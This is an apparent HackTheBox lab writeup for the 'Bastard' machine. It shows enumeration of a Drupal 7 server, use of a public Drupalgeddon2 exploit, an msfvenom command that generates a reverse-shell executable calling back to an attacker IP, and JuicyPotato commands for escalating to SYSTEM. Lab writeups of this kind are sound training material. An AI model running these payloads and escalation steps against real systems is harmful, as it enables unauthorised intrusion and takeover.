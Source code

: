 ```yaml
---
layout: post
title: "Bastard Writeup - HackTheBox"
category: HackTheBox
---
```


# HTB lab Machine - Bastard

I started of reverting the machine, and then ran my self made script https://github.com/yassirlaaouissi/EZEA. The exact results can be found in the results/10.129.143.17 folder that I have attached to this post.

## Enumeration summary

```
PORT      STATE SERVICE VERSION
80/tcp    open  http    Microsoft IIS httpd 7.5
|_http-generator: Drupal 7 (http://drupal.org)
| http-methods: 
|_  Potentially risky methods: TRACE
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Welcome to Bastard | Bastard

135/tcp   open  msrpc   Microsoft Windows RPC
49154/tcp open  msrpc   Microsoft Windows RPC

Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

![image-20210508080511757](https://raw.githubusercontent.com/yassirlaaouissi/yassirlaaouissi.github.io/master/_screenshots/image-20210508080511757.png)

![image-20210508080707848](https://raw.githubusercontent.com/yassirlaaouissi/yassirlaaouissi.github.io/master/_screenshots/image-20210508080707848.png)

```
Summary   : Microsoft-IIS[7.5], MetaGenerator[Drupal 7 (http://drupal.org)], Content-Language[en], JQuery, Drupal, Script[text/javascript], PasswordField[pass], X-Frame-Options[SAMEORIGIN], UncommonHeaders[x-content-type-options,x-generator], PHP[5.3.28,], HTTPServer[Microsoft-IIS/7.5], X-Powered-By[PHP/5.3.28, ASP.NET]
```

## Exploitation

```
Drupal < 7.58 / < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution
```

Remeber drupalgadon2: https://github.com/lorddemon/drupalgeddon2/blob/master/drupalgeddon2.py, Well it works:

![image-20210508082901213](https://raw.githubusercontent.com/yassirlaaouissi/yassirlaaouissi.github.io/master/_screenshots/image-20210508082901213.png)

Lets create a reverse shell from that. Downloaded netcat first:

![image-20210508084731558](https://raw.githubusercontent.com/yassirlaaouissi/yassirlaaouissi.github.io/master/_screenshots/image-20210508084731558.png)

![image-20210508084748328](https://raw.githubusercontent.com/yassirlaaouissi/yassirlaaouissi.github.io/master/_screenshots/image-20210508084748328.png)

And we have shell:

![image-20210508084848709](https://raw.githubusercontent.com/yassirlaaouissi/yassirlaaouissi.github.io/master/_screenshots/image-20210508084848709.png)

Huhm okay that was user:

![image-20210508085126451](https://raw.githubusercontent.com/yassirlaaouissi/yassirlaaouissi.github.io/master/_screenshots/image-20210508085126451.png)

Lets get to some privesc:

```
C:\Users\dimitris\Desktop>systeminfo
systeminfo

Host Name:                 BASTARD
OS Name:                   Microsoft Windows Server 2008 R2 Datacenter 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                00496-001-0001283-84782
Original Install Date:     18/3/2017, 7:04:46 ��
System Boot Time:          8/5/2021, 3:02:25 ��
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              2 Processor(s) Installed.
                           [01]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
                           [02]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     2.047 MB
Available Physical Memory: 1.527 MB
Virtual Memory: Max Size:  4.095 MB
Virtual Memory: Available: 3.536 MB
Virtual Memory: In Use:    559 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: vmxnet3 Ethernet Adapter
                                 Connection Name: Local Area Connection 3
                                 DHCP Enabled:    Yes
                                 DHCP Server:     10.129.0.1
                                 IP address(es)
                                 [01]: 10.129.143.17
                                 [02]: fe80::cd65:1834:2e72:f9b4
                                 [03]: dead:beef::cd65:1834:2e72:f9b4

```

Windows exploit suggester time;

```
kali@kali:~/Desktop/DownloadedScripts$ python windows-exploit-suggester.py --database 2021-05-08-mssb.xls --systeminfo sysinfo.txt 
[*] initiating winsploit version 3.3...
[*] database file detected as xls or xlsx based on extension
[*] attempting to read from the systeminfo input file
[+] systeminfo input file read successfully (utf-8)
[*] querying database file for potential vulnerabilities
[*] comparing the 0 hotfix(es) against the 197 potential bulletins(s) with a database of 137 known exploits
[*] there are now 197 remaining vulns
[+] [E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin
[+] windows version identified as 'Windows 2008 R2 64-bit'
[*] 
[M] MS13-009: Cumulative Security Update for Internet Explorer (2792100) - Critical
[M] MS13-005: Vulnerability in Windows Kernel-Mode Driver Could Allow Elevation of Privilege (2778930) - Important
[E] MS12-037: Cumulative Security Update for Internet Explorer (2699988) - Critical
[*]   http://www.exploit-db.com/exploits/35273/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5., PoC
[*]   http://www.exploit-db.com/exploits/34815/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5.0 Bypass (MS12-037), PoC
[*] 
[E] MS11-011: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (2393802) - Important
[M] MS10-073: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (981957) - Important
[M] MS10-061: Vulnerability in Print Spooler Service Could Allow Remote Code Execution (2347290) - Critical
[E] MS10-059: Vulnerabilities in the Tracing Feature for Services Could Allow Elevation of Privilege (982799) - Important
[E] MS10-047: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (981852) - Important
[M] MS10-002: Cumulative Security Update for Internet Explorer (978207) - Critical
[M] MS09-072: Cumulative Security Update for Internet Explorer (976325) - Critical
[*] done

```

Sadly none of these options worked. But I did find this: 

```
C:\inetpub\drupal-7.54>whoami /priv 
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name          Description                               State  
======================= ========================================= =======
SeChangeNotifyPrivilege Bypass traverse checking                  Enabled
SeImpersonatePrivilege  Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege Create global objects                     Enabled

C:\inetpub\drupal-7.54>

```

Aka juicypotato time.Generate a payload:

```
kali@kali:~/Desktop/DownloadedScripts$ msfvenom --platform Windows -p windows/x64/shell_reverse_tcp lhost=10.10.14.45 lport=9999 -f exe > shell.exe
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
```

Well we need to find the right clsid:

```
C:\inetpub\drupal-7.54>jp.exe -t * -p shell.exe -l 9999
jp.exe -t * -p shell.exe -l 9999
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 9999
COM -> recv failed with error: 10038
```

We grab the first clsid from here that belongs to system https://github.com/ohpe/juicy-potato/tree/v0.1/Docs/CLSID/Windows_Server_2008_R2_Enterprise:

```
C:\inetpub\drupal-7.54>jp.exe -t * -p shell.exe -l 9999 -c {9B1F122C-2982-4e91-AA8B-E071D54F2A4D}
jp.exe -t * -p shell.exe -l 9999 -c {9B1F122C-2982-4e91-AA8B-E071D54F2A4D}
Testing {9B1F122C-2982-4e91-AA8B-E071D54F2A4D} 9999
....
[+] authresult 0
{9B1F122C-2982-4e91-AA8B-E071D54F2A4D};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK
```

And we roooooot:

![image-20210508100259497](https://raw.githubusercontent.com/yassirlaaouissi/yassirlaaouissi.github.io/master/_screenshots/image-20210508100259497.png)

## Final thoughts

How is this a medium machine. This is a 20 pointer on OSCP exam, but boy this was ez.
